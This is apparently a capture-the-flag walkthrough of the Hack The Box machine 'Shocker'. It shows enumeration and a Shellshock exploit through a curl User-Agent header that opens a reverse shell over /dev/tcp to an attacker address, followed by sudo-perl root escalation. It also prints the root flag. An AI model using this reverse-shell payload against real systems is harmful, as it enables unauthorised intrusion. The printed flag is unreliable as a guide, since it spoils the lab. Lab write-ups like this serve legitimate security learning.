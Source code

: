 ## Information

| Property     | Value                       |
|--------------|-----------------------------|
| **Name**     |  Shocker |
| **IP Address**| 10.10.10.56        |
| **OS**       |   Linux      |
| **Difficulty**| Easy   |

## Enumeration
### Nmap Scan
```bash
nmap -sC -sV -oN nmap_scan.txt -Pn 
```

```
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## Initial Access
### Port [80] - [Web Server]

Fuzzing directories using Ffuf revealed the presence of the cgi-bin folder.
#### FFUF Alias for web content discovery: 

```bash
alias ffuf_web_medium='_ffuf_web_medium() { ffuf -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -c -s -u http://$1/FUZZ/; }; _ffuf_web_medium'
```

For the content of the cgi-bin direcotory, using the same wordlists with multiple extensions like .sh or .cgi, this will reveal the user.sh script. 

#### Vulnerability Exploited

Shellshock vulnerability affecting the cgi-bin exploited by sending a crafted user-agent header: 
```bash
curl -H "user-agent: () { :; }; echo; /bin/sh -i >& /dev/tcp/10.10.14.5/1337 0>&1" http://shocker.htb/cgi-bin/user.sh
```
#### Exploitation Steps

Setting up a listener using [pwncat-cs](https://github.com/calebstewart/pwncat) and sending the malicious request gives us a shell back. 

```bash
[09:34:09] Welcome to pwncat 🐈!                         __main__.py:164
[09:43:50] received connection from 10.10.10.56:51198                         bind.py:84
[09:43:51] 0.0.0.0:1337: upgrading from /bin/dash to /bin/bash            manager.py:957
[09:43:52] 10.10.10.56:51198: registered new host w/ db                   manager.py:957
(local) pwncat$ back
(remote) shelly@Shocker:/usr/lib/cgi-bin$ id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
(remote) shelly@Shocker:/usr/lib/cgi-bin$ 
```

### User Access

Content of user.sh: 

```bash
(remote) shelly@Shocker:/usr/lib/cgi-bin$ cat user.sh
#!/bin/bash
echo
echo "Content-Type: text/plain"
echo ""
echo "Just an uptime test script"
echo
uptime
echo
echo
(remote) shelly@Shocker:/usr/lib/cgi-bin$ 
```

#### User Flag

- 
## Privilege Escalation

User ``shocker``  is able to run perl with sudo: 

```sh
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Executing perl as root using the following gtfo command: 

```bash
sudo perl -e 'exec "/bin/sh";'
```

#### Root Flag

49eb3457c5f0411a37a9f907db03d92d
## Conclusion


## Additional Notes

0xdf talked about why the trailing slash is needed when requesting the /cgi-bin directory:

From: https://0xdf.gitlab.io/2021/05/25/htb-shocker.html#shellshock-chained-commands

The mystery unlocked when I started looking at the other Apache config files, specifically `/etc/apache2/conf-enabled/serve-cgi-bin.conf`:

```
<IfModule mod_alias.c>
        <IfModule mod_cgi.c>
                Define ENABLE_USR_LIB_CGI_BIN
        </IfModule>

        <IfModule mod_cgid.c>
                Define ENABLE_USR_LIB_CGI_BIN
        </IfModule>

        <IfDefine ENABLE_USR_LIB_CGI_BIN>
                ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
                <Directory "/usr/lib/cgi-bin">
                        AllowOverride None
                        Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
                        Require all granted
                </Directory>
        </IfDefine>
</IfModule>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

The line `ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/` will match on requests to `/cgi-bin/` and alias them into the `/usr/lib/cgi-bin/` directory. But it only matches if there’s a trailing slash!

To test this, I removed the trailing slash, leaving:

```
ScriptAlias /cgi-bin /usr/lib/cgi-bin/
```

## Resources
https://0xdf.gitlab.io/2021/05/25/htb-shocker.html#shellshock-chained-commands
